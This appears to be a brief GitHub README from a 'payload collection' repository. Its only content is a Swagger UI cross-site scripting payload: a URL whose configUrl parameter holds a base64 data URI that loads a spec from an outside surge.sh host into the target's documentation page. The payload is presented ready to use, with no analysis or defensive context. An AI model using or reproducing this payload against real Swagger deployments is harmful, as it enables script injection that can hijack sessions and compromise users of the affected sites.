 # payload-collection
A payload collections


## xss

swagger xss payload:

![image](https://user-images.githubusercontent.com/12164075/169923554-f0d382f5-8a13-4491-ad9c-f16e0017e089.png)

```
https://xxx.com/docs/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==
```

